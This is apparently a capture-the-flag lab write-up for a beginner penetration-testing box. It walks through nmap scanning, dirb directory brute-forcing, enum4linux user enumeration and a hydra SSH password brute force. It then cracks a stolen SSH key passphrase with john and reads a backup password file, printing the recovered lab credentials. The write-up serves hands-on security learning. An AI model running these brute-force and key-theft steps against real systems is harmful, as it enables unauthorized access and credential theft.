 # Information Gathering
> nmap -a $TARGET
Useful resoults:
  * port 22 ssh open, + ssh keys
  * port 80 open
  
checked the webpage:
viewed source code:

Hint:
> "\<!-- Check our dev note section if you need to know what to work on. -->"

### BruteForce time!
Used dirb:
> dirb $TARGET /usr/share/wordlists/dirb/common.txt

found web dir: /development/ :
  * /development/dev.txt : mentioned apache version 2.5.12
  * /development/j.txt : etc/shadow and crackable hash
  
### enum time!
we are asked to find usernames:
> enum4linux -U $TARGET 

output: 
```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

### Crack Jan's password
Used hydra on ssh
> hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$TARGET

after 10 mins, found the password:
> [22][ssh] host: 10.10.93.208   login: jan   password: armando

Now we can log into the machine via jan:armando on ssh

---

### PrivEsc
* Manual:
 	1. /etc/shadow perms : -rw-r-----  1 root shadow  1085 Apr 23  2018 shadow
 	2. /etc/passwd: 	
		* kay:x:1000:1000:Kay,,,:/home/kay:/bin/bash
  		* jan:x:1001:1001::/home/jan:/bin/bash
  	3. cd /home/kay and found pass.bak  (IMPORTANT)
 	4. cd /home/kay and found .ssh/ it contains ssh_keys which means we also have kay creds over ssh (IMPORTANT)
	
```
Grabbed private_keys from /home/kay/.ssh:
|	-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
|	-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
|	-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```

#### Crack time!
> python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash

> john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash

found passphrase: beeswax

#### SSH to kay

> ssh -i /home/kay/.ssh/id_rsa kay@10.10.93.208

Enter passphrase for key '/home/kay/.ssh/id_rsa': beeswax
Done!

### pass.bak
> cat pass.bak

heresareallystrongpasswordthatfollowsthepasswordpolicy$$

  				



